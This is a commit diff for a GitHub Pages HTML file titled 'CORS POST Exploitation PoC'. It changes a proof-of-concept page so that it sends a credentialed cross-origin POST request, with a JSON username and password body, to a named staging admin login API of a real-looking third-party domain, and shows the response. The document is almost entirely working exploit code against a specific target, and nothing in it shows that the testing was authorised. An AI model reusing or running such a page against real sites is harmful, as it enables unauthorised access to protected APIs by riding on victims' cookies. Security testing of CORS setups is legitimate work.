

Before and after one commit to rottenpot/my-website, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,14 +2,17 @@
 <html>
 <head>
   <meta charset="UTF-8">
-  <title>CORS Exploitation Test</title>
+  <title>CORS POST Exploitation Test</title>
   <style>
     body {
       font-family: Arial, sans-serif;
       margin: 40px;
     }
-    input {
+    input, textarea {
       width: 600px;
+    }
+    textarea {
+      height: 150px;
     }
     pre {
       border: 1px solid #ccc;
@@ -20,34 +23,48 @@
   </style>
 </head>
 <body>
-  <h2>CORS Exploitation PoC</h2>
-  <p>This page sends a cross-origin request to the target URL below. The browser automatically sets the <code>Origin</code> header to this GitHub Pages site.</p>
+  <h2>CORS POST Exploitation PoC</h2>
+  <p>This page sends a cross-origin POST request to the target URL. The <code>Origin</code> header will automatically be set to this GitHub Pages site.</p>
 
+  <label>Target URL:</label><br>
   <input
     type="text"
     id="targetUrl"
     value="https://staging-elb.basecamp.invesco.co.uk/backend-proxy/adm/api/v1/login"
-  >
-  <button onclick="exploit()">Send Request</button>
+  ><br><br>
+
+  <label>Request Body (JSON):</label><br>
+  <textarea id="requestBody">
+{
+  "username": "testuser",
+  "password": "testpassword"
+}
+  </textarea><br><br>
+
+  <button onclick="exploit()">Send POST Request</button>
 
   <pre id="output"></pre>
 
   <script>
     function exploit() {
       const url = document.getElementById('targetUrl').value;
+      const body = document.getElementById('requestBody').value;
       const output = document.getElementById('output');
-      output.textContent = 'Sending GET request to ' + url + ' ...';
+      output.textContent = 'Sending POST request to ' + url + ' ...';
 
       const xhr = new XMLHttpRequest();
-      xhr.open('GET', url, true);
+      xhr.open('POST', url, true);
       xhr.withCredentials = true; // include cookies if any
+      xhr.setRequestHeader('Content-Type', 'application/json');
+
       xhr.onreadystatechange = function() {
         if (xhr.readyState === 4) {
           output.textContent =
             'Status: ' + xhr.status + '\n\nResponse:\n' + xhr.responseText;
         }
       };
-      xhr.send();
+
+      xhr.send(body);
     }
   </script>
 </body>
```
